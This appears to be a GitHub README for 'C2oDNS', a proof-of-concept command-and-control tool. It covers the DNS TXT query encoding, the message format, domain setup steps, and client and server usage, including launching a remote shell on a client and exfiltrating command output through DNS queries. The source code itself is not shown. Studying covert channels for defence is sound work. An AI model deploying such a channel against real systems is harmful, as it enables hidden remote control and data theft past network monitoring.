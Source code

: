 # C2oDNS
## Command&Control channel over DNS protocol
This is PoC of the communication channel implemented over DNS protocol. It utilizes a typical client-server architecture. The client is written in C (Linux and Windows compatible) and the server is written in Python. 

## Operating principle
A quick refresher on the DNS protocol: its main goal is to **translate a human-friendly domain name into the IP address**. When a device wants to perform this translation, a DNS query is sent to a recursive DNS server. Thanks to the hierarchical structure of DNS servers, this query can travel across multiple DNS servers until it finds an authoritative server of a domain. And if the answer for our query isn't cached anywhere along the way, the query will always hit the domain's authoritative server. The fun begins when we are in a possession of a domain and configure it in such a way, that the authoritative DNS server for this domain is under our control. Then when somebody asks for the address of our subdomain, **a DNS query is forwarded to our server**. In normal conditions we would just return some IP address, but not this time. That query was prepared by the client application and instead of normal subdomains, **it contains some encoded data** (e.g. result of a command execution). To make things even better, DNS queries can not only ask for IP address (type A) but can also for text information (type TXT) that normally would be used for domain ownership verification, email spam prevention, and many more. We can take advantage of this by **sending commands to clients as TXT records**.

## Communication specification 
When the client application is run, it sends TXT queries to a specified domain (e.g. *a.example.com*) with added additional (base32 encoded) information (*info_block*) as subdomain.
```
info_block.a.example.com   TXT?
     ^
     |__________________
      8 bytes of base32
```
When decoded, this information block consists of 5 bytes. The first 2 bytes are "junk" - random value generated for each request. Its purpose is to prevent using cached DNS records because that would resolve our query before it could hit our server. The next byte is client ID - a value given at the launch of the client application (or randomized if not specified). It's used to differentiate multiple clients from the server side. Ultimately MAC address should be used. The last 2 bytes hold message ID. There are two special IDs: HELLO (0xFFFF) and END_OF_TRANSMISSION (0xFFFE). HELLO ID is used when a client is ready to receive a command from the server, and END_OF_TRANSMISSION means that client sent the whole data. When data doesn't fit in a single query then message ID is used to tag queries and later stitch them together on the server side in proper order. That means that a maximum of 65534 messages can be sent as one transaction. By default 189 bytes of data is sent in one query, so only `65534 * 189B ≈ 12MB`can be sent in a single transaction. Data to send is encoded in base32 (12MB of base32 ≈ 8MB of raw data) and added to the domain name as subdomains (max 63 bytes each).
```
data1.data2.data3.info_block.a.example.com   TXT?
```
For every query that hits the server, a proper response is generated (empty data for TXT or server's public IP for A) to prevent queries retransmission and to inform the client that the data has reached the server. When the client is in the middle of sending some data and it doesn't receive an acknowledgment, data transmission is canceled.  

![Communication sequence diagram](https://i.imgur.com/f2ZHvMN.png)

## Setup for educational purposes
1. Obtain a domain (suppose it's *example.com*)
2. Obtain a server with public IP address
3. Cofnigure the domain
    ```
    Example:
    a.example.com   NS  ns.example.com
    ns.example.com  A   XXX.XXX.XXX.XXX <- server's IP address
    ```
4. Compile *client.c* and run **ON YOUR MACHINE**
    ```
    make [linux/windows]
    # Linux:
    ./client a.example.com client_id
    # Windows:
    client.exe a.example.com client_id
    ```
5. Run *server.py* on your server 

## Config and usage of applications
### `client.c`

Run by giving your domain and client_id as arguments. Client_id is optional but recommended. If no client_id is specified, a random value is picked. 
```
./client a.example.com client_id [0-255][optional]
```

Config options (by editing `#define` in source file):
- PORT_NUMBER - socket port number
- DATA_PART_LENGTH - number of bytes of data to attach to the domain name, the maximum length of the result is 255 characters
- DEAD_SERVER_HELLO_INTERVAL_IN_SEC - number of seconds between hello messages if the server doesn't respond
- ALIVE_SERVER_HELLO_INTERVAL_IN_SEC - number of seconds between hello messages if the server responds

### `server.py`
This script provides two functions: `list-clients` and `command-and-control`. 
The first passively listens for client activity and lists them along with the client ID and the time of the last query. The other function launches shell to the specified client.   
```
user$ python3 server.py list-clients --help
Usage: server.py list-clients [OPTIONS]

Options:
  -d, --domain TEXT     Domain name
  -s, --socket-ip TEXT  IP of the interface to run the DNS server on
  -p, --port INTEGER    Custom port number  [default: 53]
  --help                Show this message and exit.
```
![list-clients](https://i.imgur.com/zfFdDFO.png)


```
user$ python3 server.py command-and-control --help
Usage: server.py command-and-control [OPTIONS]

Options:
  -d, --domain TEXT        Domain name
  -s, --socket-ip TEXT     IP of the interface to run the DNS server on
  -c, --client-id INTEGER  ID of the client to control
  -p, --port INTEGER       Custom port number  [default: 53]
  --debug
  --help                   Show this message and exit.
```
![command-and-control](https://i.imgur.com/8d8sFDt.png)

## Licence
MIT

